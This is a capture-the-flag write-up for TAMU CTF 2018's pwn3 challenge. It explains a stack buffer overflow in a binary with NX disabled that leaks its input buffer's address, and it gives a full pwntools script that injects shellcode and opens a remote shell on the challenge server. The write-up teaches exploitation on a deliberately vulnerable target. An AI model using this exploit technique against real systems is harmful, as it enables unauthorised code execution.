 ```yaml
---
author: zangobot
ctf: TAMU CTF 2018
challenge: PWN3
categories: [pwn]
tags: [ ctf, springchicken, challenge ]
layout: writeup
---
```

pwn3 is the natural evolution of [pwn2]({{site.base_url}}/writeups/TAMU2018/pwn2):

```
Welcome to the New Echo application 2.0!
Changelog:
- Less deprecated flag printing functions!
- New Random Number Generator!

Your random number 0xffc9967a!
Now what should I echo? springchicken_is_ok
springchicken_is_ok
```
Again, no canary and for the first time, NX disabled (this is nice).

BUT ASLR is enabled!
There is no `print_flag` function... man this is though.

Or maybe not? NX is disabled, so I can put a shellcraft into the stack and execute it.

But how can I reference it? Just look at the output of radare2.

The address printed at the beginning is the address of the input string.

**BINGO.**


```
from pwn import *

OFFSET = 242 #found using ragg2

rem = remote('pwn.ctf.tamu.edu', 4323)

#read useless line
for i in range(0,5):
    rem.recvline()

#this is the address line
to_grep = rem.recvline()

#this is the address
address = '0x'+to_grep[::-1][2:10][::-1]
address = p32(int(address,16))

#voilà
shellcode = asm(shellcraft.i386.sh())
exploit = shellcode + 'A'*(OFFSET - len(shellcode)) + address

rem.sendline(exploit)
rem.interactive()


```

Flag captured <.<
